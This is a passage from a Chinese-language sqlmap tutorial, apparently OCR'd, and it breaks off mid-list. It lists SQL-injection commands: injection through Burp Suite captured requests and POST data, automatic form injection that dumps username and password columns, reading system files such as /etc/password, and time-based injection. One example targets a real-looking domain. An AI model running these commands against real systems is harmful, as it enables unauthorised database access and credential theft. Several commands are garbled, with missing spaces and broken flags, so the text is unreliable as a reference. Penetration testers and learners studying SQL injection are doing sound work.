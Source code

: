         

### 8.模拟测试手机环境站点

    python sqlmap.py -u"http://www.target.com/vuln.php?id=1" --mobile
    
        

### 9.智能判断测试

    sqlmap.py -u "http://www.antian365.com/info.php?id=1"--batch --smart
    
    ### 10.结合burpsuite进行注入
    
    （1）burpsuite抓包，需要设置burpsuite记录请求日志
    
    sqlmap.py -r burpsuite抓包.txt
    
    （2）指定表单注入
    
    sqlmap.py -u URL --data“username=a&password=a”
    
    ### 11.sqlmap自动填写表单注入
    
    自动填写表单：
    
    sqlmap.py -u URL --forms 
    
    sqlmap.py -u URL --forms --dbs
    
    sqlmap.py -u URL --forms --current-db
    
    sqlmap.py -u URL --forms -D 数据库名称--tables
    
    sqlmap.py -u URL --forms -D 数据库名称 -T 表名 --columns
    
    sqlmap.py -u URL --forms -D 数据库名称 -T 表名 -Cusername，password --dump
    
        

### 12.读取linux下文件

     sqlmap.py-u "url" --file /etc/password
    
        

### 13.延时注入

    sqlmap.py -u URL --technique -T--current-user
    
    ### 14. sqlmap 结合burpsuite进行post注入
    
    结合burpsuite来使用sqlmap：
    
    （1）浏览器打开目标地址http://www.antian365.com
    
    （2）配置burp代理(127.0.0.1:8080)以拦截请求
    
    （3）点击登录表单的submit按钮
    
    （4）Burp会拦截到了我们的登录POST请求
    